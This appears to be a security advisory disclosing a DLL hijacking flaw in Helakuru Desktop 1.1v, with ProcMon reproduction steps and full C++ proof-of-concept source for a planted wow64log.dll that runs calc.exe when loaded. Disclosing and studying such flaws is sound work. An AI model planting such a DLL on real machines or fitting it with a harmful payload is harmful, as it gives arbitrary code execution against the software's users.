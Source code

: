 **DLL Hijacking Vulnerability in Helakuru**
---

**Summary**

The Helakuru Desktop version operates on both 64-bit and 32-bit architectures. During testing, it was identified that the program attempts to load wow64log.dll, which is not included by default in modern Windows operating systems. This results in a 'Name not found' error, exposing the program to a DLL Hijacking vulnerability. By crafting a malicious wow64log.dll, arbitrary code execution can be achieved.

**Affected Version**

Helakuru Desktop 1.1v

**Steps to Reproduce**

1. Monitor DLL Loading with ProcMon
 * ProcMon showing the CreateFile operation with "Name not found" for wow64log.dll
   ![Pasted image 20240925232040](https://github.com/user-attachments/assets/e3f552d8-bb3c-4c61-87ef-8a1dd5fa9bf0)

2. Create a Malicious wow64log.dll
``` C++
#include <windows.h>
#include <stdio.h>

void LaunchCalculator()
{
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    const char* calcCmd = "C:\\Windows\\System32\\calc.exe";

    if (!CreateProcessA(
        NULL,          
        (LPSTR)calcCmd, 
        NULL,          
        NULL,          
        FALSE,         
        0,             
        NULL,          
        NULL,          
        &si,           
        &pi))          
    {
        printf("CreateProcess failed (%d).\n", GetLastError());
    }
    else
    {
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        LaunchCalculator();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

3. Run Helakuru Desktop
 * Launch Helakuru Desktop again. The malicious wow64log.dll will now be loaded into the program, triggering the Calculator as a demonstration of successful DLL injection.
 ![Pasted image 20240925233737](https://github.com/user-attachments/assets/d01f179e-e09d-45e1-8b04-2922102f7b69)

4. Verify DLL Load using ProcMon
 * Reopen ProcMon and observe that the wow64log.dll is successfully loaded this time, confirming that the custom DLL has been executed by the program.
   ![Pasted image 20240925232728](https://github.com/user-attachments/assets/985f373f-9e7a-4d4b-b3d3-0bed98710be4)

**Impact**: This vulnerability allows for arbitrary code execution.


